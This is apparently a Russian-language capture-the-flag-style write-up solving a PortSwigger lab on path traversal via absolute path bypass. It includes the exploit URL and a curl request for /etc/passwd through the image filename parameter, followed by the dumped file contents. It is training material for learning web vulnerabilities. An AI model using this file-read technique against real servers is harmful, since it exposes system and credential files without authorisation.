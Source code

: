 ```yaml
---
title: "File path traversal, traversal sequences blocked with absolute path bypass"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-absolute-path-bypass"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение блокирует обход по относительному пути, но рассматривает предоставленное имя файла как относящееся к рабочему каталогу по умолчанию.

Для решения лабораторной работы нужно извлечь содержимое файла `/etc/passwd`.

```
https://0a68000e03cb5f058043582300db0088.web-security-academy.net/
```

## Solution

Мы на главной странице. Предположу, что для загрузки изображений указывается путь до файла. Посмотрю это в исходном коде страницы:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_blocked_with_absolute_path_bypass/1.png){: height="200" .align-center}

Значит мы можем посмотреть картинку по следующему `URL`:

```
https://0a68000e03cb5f058043582300db0088.web-security-academy.net/image?filename=30.jpg
```

Попробую передать путь до нужного файла:

```
https://0a68000e03cb5f058043582300db0088.web-security-academy.net/image?filename=/etc/passwd
```

Я получил следующую ошибку отображения картинки:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_blocked_with_absolute_path_bypass/2.png){: height="200" .align-center}

Попробую посмотреть ответ через `curl`:

```bash
cu63:~/ $ curl https://0a68000e03cb5f058043582300db0088.web-security-academy.net/image\?filename\=/etc/passwd          
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
